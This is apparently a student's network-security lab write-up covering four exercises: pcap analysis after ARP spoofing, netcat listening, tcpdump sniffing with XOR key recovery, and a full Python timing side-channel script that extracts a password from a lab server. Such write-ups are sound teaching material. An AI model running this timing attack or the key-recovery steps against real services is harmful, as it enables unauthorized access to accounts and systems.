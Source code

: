 # Author
Derek Xu 
# Question 1
We are given a .pcap file which can be read with packet viewers like Wireshark. After filtering for UDP and TCP packets, I found the following transmissions after what is allegedly an ARP spoofing attack.

![eavesdrop](images/eavesdrop.png)

The data shows that the secret phrase is 3C5211SS0f

![eavesdrop2](images/eavesdrop2.png)

# Question 2
For this flag, we were told that a broadcast gets sent out on port 5455 so I set packet sniffers looking for packets that were with source port 5455 on UDP and TCP protocols. I found that the following command gave me a transmission every hour.

`nc -l -u 5455 > out.txt &`

![finalweather](images/finalweather.png)

We see that the weather will be a SlushySt0rm. 

# Question 3
This flag started out with listening for traffic on the specified port (both ingoing and outgoing). With this, I was hoping to find some clues to what the key might be.

Using `tcpdump src port 5678 or dst port 5678 -w out.pcap`, I was able to listen to traffic in the background and let it run for a bit. After about an hour, using Wireshark or `tcpdump -X -r out.pcap`, I read the packets and found some of the following data:

![packets](images/packets.png)

The "gian.97dakls1560" kept repeating and I found out that it was a username + key being sent to the server at port 5678. So I tried the following using my own username and the weird string of letters I found.

![encryptedkey](images/encryptedkey.png)

With this, I figured out that to get the key, I would have to XOR the given key with my username in order to find the key used by the server. So using the following Python codee


```python
import base64

def xor(user, outputed_key):
    # base64 decode
    decoded_key = base64.b64decode(outputed_key)
    
    # encode user_bytes to be bytes
    user_bytes = user.encode()
    
    result = bytearray()
    for i in range(max(len(user_bytes), len(decoded_key))):
        result.append(user_bytes[i % len(user)] ^ decoded_key[i % len(decoded_key)])
    
    return result

user = "dxu0117"
outputed_key = "I0hFVHsBVUU="

result = xor(user, outputed_key)

print(result.decode())

```
We get "G00dJ0b!":

![goodjob](images/goodjob.png)

# Question 4
Question 4 involves essentially guessing a password checked by the password server at 1234. Instead of bruteforcing and attempting to listen to network traffic (which yielded nothing), I settled on using a timing side-channel attack.

The following code probes the server for every possible character, then if one of the character gives a response that takes longer than other characters, we can assume that that character is part of the password. We add on the "correct" letter to what we know and continue on until the password server finally tells us that our password is correct.

```python
import socket
import time
import string

def timing_attack():

    charset = ' ' + string.ascii_letters + string.digits + string.punctuation
    discovered_password = ""

    try:
    

        
        for i in range(20):
            best_char = None
            max_time = 0

            for char in charset:
                test_input = discovered_password + char

                time.sleep(0.5)

                try:
                    # create tcp connection

                    # get prompt message
                    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    s.settimeout(15)


                    s.connect(('ec521network', 1234))
                    res = s.recv(1024).decode()

                    start_time = time.time()
                    s.sendall((test_input + "\n").encode())

                    res = s.recv(1024).decode()
                    end_time = time.time()

                    print(char, end_time - start_time)


                    if (end_time - start_time) > max_time:
                        # if we took longer with previouschar + character, then we know its right
                        max_time = end_time - start_time
                        best_char = char


                except Exception as e:
                    print(e)
                finally:
                    s.close()
                    
            
            discovered_password += best_char
            print("Password so far:", discovered_password)

            try:
                # res = s.recv(1024).decode()
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.settimeout(10)

                s.connect(('ec521network', 1234))
                res = s.recv(1024).decode()
                s.sendall((discovered_password + "\n").encode())
                res = s.recv(1024).decode()
                print(res)
                # check if correct
                if "Error" not in res:
                    print("Password Found:", discovered_password)
                    s.close()
                    return discovered_password
                
            except Exception as e:
                print(e)
            finally:
                s.close()
    except Exception as e:
        print(e)

    return discovered_password


print(timing_attack())
```

When using this script, I printed out the response timings of different characters to debug what was going on. I saw that the response for the "correct" letter came out a second longer.

![pwdsofar](images/pwdsofar.png)

Repeating this process, eventually the script came out with an answer "B3W4R30fTC" which was successful.

![finalpwd](images/finalpwd.png)